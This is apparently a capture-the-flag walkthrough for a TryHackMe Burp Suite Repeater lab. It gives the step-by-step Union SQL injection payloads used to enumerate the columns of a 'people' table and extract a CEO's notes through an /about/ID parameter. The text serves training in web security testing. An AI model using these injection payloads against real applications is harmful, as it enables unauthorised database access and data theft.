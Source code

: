 # TryHackMe Burp suite: Repeater room

_**TASK 8**_ from:&#x20;

{% embed url="https://tryhackme.com/r/room/burpsuiterepeater" %}

**Challenge Objective**

> Your objective in this challenge is to identify and exploit a Union SQL Injection vulnerability present in the ID parameter of the `/about/ID` endpoint. By leveraging this vulnerability, your task is to launch an attack to retrieve the notes about the CEO stored in the database.

1. `1'`

* To force an error:&#x20;

`Invalid statement:`&#x20;

`SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 1';`

The information provided in the error message tells us about the SQL query used

2. `8 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name='people'`

* The value _**`8`**_ (or any other values that does not match an entry in the database) is used to force the first part of the query to not return any results, so as to allow us to view the results from the subsequent `UNION` statement
* Displays all the columns in the `people` table

3. `8 UNION SELECT notes,null,null,null,null from people where id=1;`

* The ID of the CEO is `1`
* This query will retrieve the content stored in the notes



{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}
